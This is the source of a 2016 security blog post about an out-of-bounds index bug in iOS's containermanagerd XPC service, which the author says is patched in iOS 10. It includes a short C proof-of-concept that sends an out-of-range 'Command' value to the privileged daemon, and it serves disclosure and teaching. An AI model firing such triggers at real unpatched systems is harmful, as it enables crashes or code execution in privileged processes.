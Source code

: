 ```yaml
---
layout: post
title:  "[CVE-2016-????] iOS containermanagerd XPC array out of bound vulnerability"
date:   2016-06-17 12:00:00 +0800
categories: security android cve
---
```


Today I remembered about a iOS bug I had in `containermanagerd`, and I tought to check if it still was present in `iOS 10 beta`.

## Preliminary informations

`containermanagerd` is a privileged daemon on iOS that manages application containers and stuff.

`XPC` is a OS X/iOS IPC higher level mechanism compared to mach messages or MIG...

You may want to also check some research on `XPC`, such as [`Pangu` presentations][pangu-xpc], and `Ian Beer` Project Zero bugs, PoCs and presentation.

## Brief Explanation

If you want to follow along, you can also do it thanks to the "Apple leak" on `iOS 10`, where they forgot to encrypt a bunch of stuff in the `ipsw` of several models, including the `root filesystem` (so you can get the `containermanagerd` binary and drop it in `IDA Pro`) and `kernelcache`.

As you can imagine since I'm writing this post, the bug has been fixed in `iOS 10`.

The post will be fairly short, just dropping the trigger `PoC`.

The bug is fairly simple, we control a index used with an "array of commands", in which a command is a string and a function pointer (huh?), so we can make the program grab a "command" from a wrong location, possibly executing arbitrary code.

If you want to see more details about the bug, just drop a unpatched version of `containermanagerd` in IDA.

## Vulnerable Code

![containermanagerd vulnerable code](/assets/containermanagerd.jpg)

The red box is the new added check in iOS 10 on the array index, which comes from the input with `xpc_dictionary_get_uint64` with "Command" key (wrongly shown in IDA decompilation).

Later after this index is used to access the array I mentioned.

## PoC:

{% highlight c %}
#include "xpc/xpc.h"
#include <CoreFoundation/CoreFoundation.h>

int main(int argc, char **argv, char **envp) {
    xpc_connection_t client = xpc_connection_create_mach_service("com.apple.containermanagerd",
                                                                   NULL,
                                                                     0);
    xpc_connection_set_event_handler(client, ^(xpc_object_t event) {
        //connection err handler
    });
    xpc_connection_resume(client);
    xpc_object_t message = xpc_dictionary_create(NULL, NULL, 0);



    xpc_dictionary_set_uint64(message, "Command", 0x41414141);
    xpc_object_t reply = xpc_connection_send_message_with_reply_sync(client, message);

    NSLog(@"reply %@", reply);

    return 0;
}
{% endhighlight %}

#### Take aways:
- All input that comes via IPC should be treated as untrusted.

[pangu-xpc]: https://www.blackhat.com/docs/us-15/materials/us-15-Wang-Review-And-Exploit-Neglected-Attack-Surface-In-iOS-8.pdf
